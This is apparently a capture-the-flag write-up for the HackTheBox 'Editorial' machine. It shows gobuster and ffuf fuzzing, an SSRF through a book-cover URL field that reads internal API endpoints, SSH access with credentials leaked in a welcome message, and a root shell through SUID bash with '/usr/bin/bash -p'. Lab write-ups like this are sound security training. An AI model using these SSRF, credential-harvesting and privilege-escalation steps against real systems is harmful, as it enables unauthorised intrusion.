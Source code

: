 # User flag

To begin, we ran an **nmap** scan on the target machine's IP to identify the open ports.

![Nmap](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/Nmap.png)

We observed that port 80 was open, so we checked the website.  

As usual, we performed directory fuzzing and found a potential attack vector in the **upload** directory.
```bash
gobuster dir -u http://editorial.htb  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200
```
![upload](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/upload.png)

After trying to upload various types of files with malicious payloads without success, I noticed the input field next to it, which allows us to insert a URL. The first thing that came to mind was to attempt an **SSRF** (Server-Side Request Forgery) by searching for common configuration files.

When that didn’t work, I decided to try fuzzing for open ports. I captured the request using **Burpsuite**, created a file with all the ports, and used **ffuf** to check if any accessible ports could be found.If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.
```bash
ffuf -u http://editorial.htb/upload-cover -X POST -request request.txr -w ports.txt -fs 61
```
![ffuf](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/ffuf.png)

If we send the request referencing one of these open ports and capture the response with **Burpsuite**, we see that we are provided with a specific endpoint.

![response ssrf](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/response%20ssrf.png)

Visiting that endpoint in the browser, a file is downloaded with the following content:
```bash
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```
After visiting several endpoints and performing the SSRF (Server-Side Request Forgery) in the same manner, we observed that when making a request to the endpoint `http://localhost:5000/api/latest/metadata/messages/authors`, we found the following message:
```bash
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
If we try to access via SSH using the credentials from the message, we succeed.

![reverseshell](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/reverseshell.png)

With this, we can obtain the user flag.

![userflag](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/userflag.png)


# Root flag
To start the privilege escalation, I tried running `sudo -l`, but our user is not in the `sudoers` group. Then, I listed the `/home` directory and found the user `prod`.

To facilitate the privilege escalation process, we used `linpeas`. When executing it, we found the following:

![linpeas](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/linpeas.png)

The file `/usr/bin/bash` has the SUID bit set, which means that any user executing the file will do so with the permissions of the file owner, in this case `root`.

Therefore, if we run the command `/usr/bin/bash -p` we can spawn a new root shell.

![rootflag](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/rootflag.png)
